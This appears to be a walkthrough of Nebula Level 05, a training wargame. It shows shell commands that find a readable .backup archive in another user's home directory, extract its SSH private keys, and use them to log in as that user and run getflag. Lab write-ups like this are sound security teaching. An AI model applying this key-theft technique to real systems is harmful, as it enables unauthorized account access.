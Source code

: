 # Nebula - Level 05

### About ###

>Check the flag05 home directory. You are looking for weak directory permissions
>
>To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.

### Solution ###

```
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 Aug 18  2012 .
drwxr-xr-x 1 root   root     340 Aug 27  2012 ..
drwxr-xr-x 2 flag05 flag05    42 Nov 20  2011 .backup
-rw-r--r-- 1 flag05 flag05   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag05 flag05   675 May 18  2011 .profile
drwx------ 2 flag05 flag05    70 Nov 20  2011 .ssh
```

An interesting directory, `.backup` can be found in the home directory of the user flag05

```
level05@nebula:/home/flag05$ ls -la .backup/
total 2
drwxr-xr-x 2 flag05 flag05    42 Nov 20  2011 .
drwxr-x--- 4 flag05 level05   93 Aug 18  2012 ..
-rw-rw-r-- 1 flag05 flag05  1826 Nov 20  2011 backup-19072011.tgz
```

`.backup` contains an archive that can be decompressed.

```
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp
level05@nebula:/home/flag05/.backup$ cd /tmp/
level05@nebula:/tmp$ tar xzvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

The archive contains ssh keys. By copying them to `level05`’s home directory, it is possible to connect to the account `flag05` with `ssh` and execute `getflag` successfully.
￼

```
level05@nebula:/tmp$ cp -r .ssh/ ~/
level05@nebula:/tmp$ ssh flag05@localhost

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


flag05@nebula:~$
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```